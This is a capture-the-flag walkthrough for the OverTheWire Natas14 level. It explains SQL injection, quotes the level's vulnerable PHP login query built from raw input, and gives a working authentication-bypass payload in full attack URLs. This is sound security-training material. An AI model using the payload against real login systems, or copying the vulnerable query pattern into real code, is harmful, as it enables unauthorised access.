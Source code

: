 # 🔐 Natas14 Walkthrough

We’re presented with a login form. This hints that **SQL Injection** might be the intended path forward.


## 💡 What is SQL Injection?

SQL Injection is a technique used to manipulate a website’s database through its input fields.

### 🔎 Example

Imagine a login system with a SQL query like this:

```php
SELECT * FROM users WHERE username = "$username" AND password = "$password";
```

Now suppose the attacker enters the following credentials:

```
username: admin  
password: password" OR "1 --
```

The query becomes:

```php
SELECT * FROM users WHERE username = "admin" AND password = "password" OR "1" --";
```

Let's break it down:
- `"password"` ends the password value.
- `OR "1"` (shorthand for "1" = true) makes the condition always true.
- `--` comments out the rest of the SQL query (optional, but often helpful).

So the condition simplifies to:

```
username = "admin" AND (false) OR (true)
```

Which effectively bypasses the password check and logs in as `admin`.

## ✅ Exploit

Now, let’s check the [View sourcecode](http://natas14.natas.labs.overthewire.org/index-source.html) for Natas14.

From the source, we see:

```php
$link=mysqli_connect('localhost', 'natas14', '<censored>');  
mysqli_select_db($link, 'natas14');
```

This confirms that usernames and passwords are stored in a database.

And here’s an interesting part:

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

This enables a "debug mode" if we include `debug` as a URL parameter. 
This lets us **see the SQL query** that gets executed — super useful!

Try opening this in your browser:

```
http://natas14.natas.labs.overthewire.org/index.php?username=&password=&debug
```

You’ll see the SQL query being built with the given parameters.

Now try to put something into the `password` and `username` variables:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

You should see your input on the website screen. Making it easier to manipulate the sql injection with `""`.

## 🐛 The Vulnerable Code

The vulnerable line is:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

This directly inserts raw user input into the SQL query — a classic SQL injection vulnerability.

Let’s simplify it by removing the `\` backticks:

```php
SELECT * FROM users WHERE username = "$userProvidedUsername" AND password = "$userProvidedPassword";
```

This is almost identical to our earlier example — and just as vulnerable.

## 🎯 Final Attack

Use the following credentials in the **URL**, not the login form:

```
username: admin  
password: password" OR "1 (as you can see '--' not used)
```

So the final link looks like:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

This will generate a query like:

```php
SELECT * FROM users WHERE username = "admin" AND password = "" OR "1";
```

Which bypasses authentication and logs you in! You should now see the password for **Natas15**. :}


## Alternitevly 

You can use a dev tool like [Brup Suite](https://learnhacking.io/basic-web-skills-setting-up-burp-suite/) which is covered in a different file.
